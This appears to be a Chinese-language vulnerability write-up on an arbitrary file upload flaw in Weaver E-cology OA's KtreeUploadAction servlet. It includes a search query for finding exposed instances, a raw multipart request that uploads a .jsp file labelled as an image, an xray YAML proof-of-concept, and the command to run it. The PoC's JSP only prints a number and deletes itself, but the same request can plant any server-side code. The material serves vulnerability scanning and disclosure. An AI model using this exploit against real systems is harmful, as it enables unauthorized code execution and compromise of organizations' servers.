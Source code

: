 # 泛微OA E-cology KtreeUploadAction 任意文件上传漏洞
## 漏洞描述

泛微OA E-cology KtreeUploadAction 存在任意文件上传漏洞，攻击者通过漏洞可以获取到服务器敏感信息。
## 影响版本
```
泛微OA E-cology
```

## 网络测绘
```
app="泛微-协同办公OA"
```

## 环境搭建

-
## 漏洞复现

![image.png](https://cdn.jsdelivr.net/gh/klearcc/pic/img202309201614787.png)

![image.png](https://cdn.jsdelivr.net/gh/klearcc/pic/img202309201614551.png)


## 数据包
```
POST /weaver/com.weaver.formmodel.apps.ktree.servlet.KtreeUploadAction?action=image HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: Secure; JSESSIONID=abc6xLBV7S2jvgm3CB50w; Secure; testBanCookie=test
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=--------1638451160
Content-Length: 171

----------1638451160
Content-Disposition: form-data; name="test"; filename="test.jsp"
Content-Type: image/jpeg

helloword
----------1638451160--

```

## YAML代码
```
name: poc-yaml-ecology-ktreeuploadaction-upload
manual: true
transport: http
set:
  s1: randomInt(40000, 44800)
  s2: randomInt(40000, 44800)
  rboundary: randomLowercase(8)
  randname: randomLowercase(6)
rules:
  r0:
    request:
      cache: true
      method: POST
      path: /weaver/com.weaver.formmodel.apps.ktree.servlet.KtreeUploadAction?action=image
      headers:
        Content-Type: multipart/form-data; boundary=----WebKitFormBoundary{{rboundary}}
      body: "------WebKitFormBoundary{{rboundary}}\r\nContent-Disposition: form-data; name=\"test\"; filename=\"{{randname}}.jsp\"\r\nContent-Type: image/jpeg\r\n\r\n<%out.print({{s1}} * {{s2}});new java.io.File(application.getRealPath(request.getServletPath())).delete();%>\r\n------WebKitFormBoundary{{rboundary}}--\r\n"
    expression: response.status == 200 && response.body.bcontains(b"SUCCESS")
    output:
      search: |
        ",'url':'/(?P<furl>.*?.jsp)',".bsubmatch(response.body)
      furl: search["furl"]
  r1:
    request:
      cache: true
      method: GET
      path: /{{furl}}
    expression: response.status == 200 && response.body.bcontains(bytes(string(s1 * s2)))

expression: r0() && r1()
# expression: r1() 
detail:
  author: klear
  links:
    - https://github.com/WingsSec/Meppo/blob/139819ec08bc0312a69c751aa99e87f218d8be8b/Moudle/Weaver/Weaver_e_cology_KtreeUploadAction.py#L12


```

## xray调用

```
xray ws --poc poc-yaml-ecology-KtreeUploadAction-upload.yml --url xx.xx.xx.xx
```

![image.png](https://cdn.jsdelivr.net/gh/klearcc/pic/img202309201615107.png)
